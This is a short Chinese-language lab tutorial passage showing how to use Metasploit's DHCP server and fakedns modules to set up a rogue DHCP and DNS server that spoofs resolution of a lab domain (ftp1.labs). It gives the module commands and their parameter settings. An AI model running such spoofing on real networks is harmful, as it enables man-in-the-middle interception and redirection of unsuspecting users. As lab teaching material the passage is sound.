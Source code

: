我们打算用 msf 伪造我们的机器位假的 DHCP 和 DNS 服务器提供出去



先伪造 DHCP：

```
sudo msfconsole`，然后 `use auxiliary/server/dhcp
```



分别设置 DNSSERVER、SRVHOST 位本机 IP，NETMASK 设置为 255.255.255.0

`set DNSSERVER 192.100.200.191` 假的 DNS 服务器地址

`set SRVHOST 192.100.200.191` 假的 DHCP 服务器的地址

`set NETMASK 255.255.255.0` 网络掩码



![img](assets/1586510349624-f165fa3e-805c-46e4-aad6-fc192840008a.png)



再使用 `use auxiliary/server/fakedns` 来伪造 DNS 服务器



分别攻击参数

`set TARGETACTION FAKE` 对解析的域名采取什么动作，FAKE 表示假冒，如果想测试一下这个模块可以使用 BYPASS（放行）这样会转发给合法的 DNS 服务器

`set TARGETDOMAIN ftp1.labs` 希望解析的域名

`set TARGETHOST 192.100.200.191` 用于解析 DNS 查询的服务器



![img](assets/1586511122189-79da5028-a10a-4c4e-bc3a-cf0731ee353f.png)
